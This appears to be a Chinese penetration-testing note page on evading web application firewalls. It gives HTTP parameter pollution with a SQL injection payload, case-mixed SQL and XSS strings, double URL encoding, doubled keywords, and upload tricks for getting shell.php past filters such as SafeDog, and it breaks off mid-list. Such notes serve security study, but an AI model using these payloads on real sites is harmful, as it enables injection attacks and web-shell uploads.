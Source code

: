   * 当访问http://192.168.58.1/?str=hello&str=world&str=xxser时，不同的脚本环境的执行结果不同，有的会接收第一个参数，有的会接收最后一个参数

* WAF在未接收到请求之前就会对数据校验，若未发现恶意代码则交给脚本处理

* 若WAF与脚本环境的取值点不同，例如WAF取值验证第一个参数而脚本取值验证最后一个参数

  ```
  # payload	
  test.php?id=1&id=1' union select * from table--
  # 其中waf取id=1，而脚本取id=1' union select
  ```

* asp.net会将多个相同参数项连在一起

  ```
  # payload
  test.php?id=1;&id=s&id=e&id=l&id=e....
  ```

  

### Sql注入绕过

* **大小写转换**

  ```
  # sql
  uNion sElEct 1,2,3
  # xss
  <scRipt>alert(1)</scrIpt>
  ```

* **URL编码**

  将payload进行2次url编码

* **双写关键字**

  ```
  ununionion seselectlect 1,2
  ```

* 

## Bypass

**%00截断**

* shell.php >> shell.php%00.jpg >> %00可以转为url编码

**去掉双引号**

* filename="shell.php" >> filename=shell.php;

**加个单引号**

* “shell.php" >> "'shell.php"

  安全狗匹配不到单引号，会认为是一个错误的请求

**重复filename**
